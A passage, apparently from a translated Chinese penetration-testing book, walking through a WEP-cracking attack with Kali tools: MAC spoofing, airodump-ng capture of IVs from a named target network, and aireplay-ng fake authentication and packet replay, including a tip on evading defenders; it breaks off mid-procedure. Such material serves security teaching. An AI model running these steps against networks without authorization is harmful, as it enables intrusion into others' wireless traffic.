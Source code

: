 对 WEP 的最常见攻击可以通过执行以下步骤来完成：

1.  首先，使用以下命令识别可用的无线网络接口：

```
    root@kali:~# airmon-ng

    ```

1.  停止接口以更改 MAC 地址为已与目标网络关联的现有客户端正在使用的地址。您还可以在此步骤中使用`macchanger`。当 MAC 地址已更改时，重新启动`airmon-ng`。使用以下命令执行这些步骤：

```
    root@kali:~# airmon-ng stop
    root@kali:~# ifconfig wlan0 down
    root@kali:~# ifconfig wlan0 hw ether (mac address)
    root@kali:~# airmon-ng start wlan0

    ```

使用已知和接受的 MAC 地址简化了攻击。然而，情况并非总是如此。这种攻击假设您*不*知道 MAC 地址。相反，我们将与网络进行虚假关联。

1.  使用以下`airodump`命令来定位目标无线网络：

```
    root@kali:~# airodump-ng wlan0

    ```

当`airodump`定位到目标时，按下*Ctrl* + *C*停止搜索。复制 BSSID 中的 MAC 地址，并记下频道。当`airodump`定位到目标时，按下*Ctrl* + *C*停止搜索。复制 BSSID 中的 MAC 地址，并记下频道；在下面截图中显示的示例中，目标网络`dd_wep`在速度为 11 MB 的第六频道上运行。

![破解 WEP 加密](img/3121OS_08_12.jpg)

1.  启动`airodump-ng`以嗅探无线流量并使用以下命令收集 IV 数据包，其中`--bssid`允许我们选择目标的 BSSID，`-c`表示频道，`-w`允许我们写入输出文件的名称（`wep_out`）：

```
    root@kali:~# airodump-ng --bssid 00:06:25:9A:A9:C6 -c 6 -w
      wep_out wlan0 

    ```

1.  现在我们必须增加传输的 IV 数据包数量。打开第二个终端窗口（不要关闭第一个）并输入以下命令，对目标无线接入点进行虚假认证：

```
    root@kali:~# aireplay-ng -1 0 -a 00:06:25:9A:A9:C6 -h 
      00:11:22:33:44:55 -e dd_wep wlan0 

    ```

这里，`-1`表示虚假认证，`0`是重新关联的时间（设置为`0`可能会引起防御者的警觉，因此攻击者可能将其设置为 30 甚至更高）。

1.  在进行虚假认证后，我们将生成似乎来自受信任 MAC 地址的流量，并将其路由到目标无线接入点。

```
    root@kali:~# aireplay-ng -3  -b 00:06:25:9A:A9:C6 -h 
      00:11:22:33:44:55 wlan0 
